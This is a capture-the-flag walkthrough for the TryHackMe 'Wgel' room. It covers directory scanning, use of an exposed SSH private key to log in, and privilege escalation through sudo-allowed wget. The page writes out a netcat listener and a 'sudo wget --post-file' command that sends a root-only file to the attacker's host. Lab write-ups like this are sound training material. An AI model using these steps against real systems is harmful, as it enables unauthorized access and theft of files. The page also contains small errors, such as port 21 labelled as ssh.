 ```yaml
---
title: Wgel CTF WalkThrough
permalink: /wgel
layout: page
tags: TryHackMe
---
```

# Wgel CTF
# ![front](/images/wgel/front.png)
[https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)

## Open Ports:
  - 21: ssh
  - 80: HTTP
  
## Port 80:
**Found name _Jxxxxe_ in source page of index page**
1. find sub-doamisn and directories usind **dirb**
   - ip/sitemap/.ssh **(Found a private ssh key)**
   
## Gaining Access:
 - Save the key in a text file and change mode to 600
  ```
    >chmod 600 key.txt
  ```
 - Connect to SSH using the key
  ```
   >ssh -i key.txt jxxxxe@ip
  ```
### USER Flag:
![user_flag](/images/wgel/user.png)
 

## Privilege Escalation:
 - sudo -l
    - Only user/bin/wget allowed as suoder
    - Open **netcat** port 80 on host
      ```
        >nc -lvpn 80 >flag.txt
      ```
    - In target 
      ```
      >sudo wget --post-file=/root/root_flag.txt ip_of_host
      ```

### Root Flag:
![rootflag.png](/images/wgel/root.png)
